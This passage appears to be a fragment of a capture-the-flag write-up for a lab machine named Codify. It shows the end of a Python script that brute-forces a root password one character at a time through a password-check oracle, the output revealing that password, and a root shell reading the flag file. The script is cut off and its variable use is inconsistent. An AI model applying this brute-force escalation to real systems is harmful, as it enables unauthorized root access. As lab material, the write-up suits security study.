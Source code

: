 ```python
            if "Password confirmed!" in output:
                print(f"Letter found: {p}")
                password += c
                break

if __name__ == "__main__":
    brute_force_password()
```

```bash
bruteforce.py  user.txt
joshua@codify:~$ python3 bruteforce.py 
Letter found: k
Letter found: kl
Letter found: klj
Letter found: kljh
Letter found: kljh1
Letter found: kljh12
Letter found: kljh12k
Letter found: kljh12k3
Letter found: kljh12k3j
Letter found: kljh12k3jh
Letter found: kljh12k3jha
Letter found: kljh12k3jhas
Letter found: kljh12k3jhask
Letter found: kljh12k3jhaskj
Letter found: kljh12k3jhaskjh
Letter found: kljh12k3jhaskjh1
Letter found: kljh12k3jhaskjh12
Letter found: kljh12k3jhaskjh12k
Letter found: kljh12k3jhaskjh12kj   
Letter found: kljh12k3jhaskjh12kjh
Letter found: kljh12k3jhaskjh12kjh3
```

```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cd
root@codify:~# cat root.txt 
4029.....7333
```